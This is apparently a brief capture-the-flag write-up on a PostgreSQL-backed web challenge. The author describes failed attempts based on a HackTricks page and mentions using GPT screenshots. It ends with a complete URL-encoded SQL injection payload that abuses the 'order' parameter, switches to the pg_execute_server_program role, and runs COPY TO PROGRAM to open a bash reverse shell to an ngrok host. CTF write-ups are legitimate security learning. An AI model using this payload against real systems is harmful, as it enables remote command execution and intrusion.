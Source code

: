 I guess everyone can easily do the v1, and just lacked a little luck for v2, yall know its only have pg_execute_server_program, i tested multiple time with https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html?highlight=pentest%20postgre#rce with still no luck, after ~1 hour, i got the flag:

![](./images/gpt1.png)


![](./images/gpt2.png)

Aight, but i still can’t manage a sleep tho, but somehow its a bit longer that when i tried to make a rev shell and BOOM, it worked! Here is the final payload:

`http://52.59.124.14:5021/?order=1%3BSET%20ROLE%20pg_execute_server_program%3BCOPY%20(SELECT%20'')%20TO%20PROGRAM%20'bash%20-c%20"exec%20bash%20-i%20>%26%20/dev/tcp/0.tcp.ap.ngrok.io/12365%200>%261"'%3BSELECT%20'shell'%2C1%2C1%3B--`

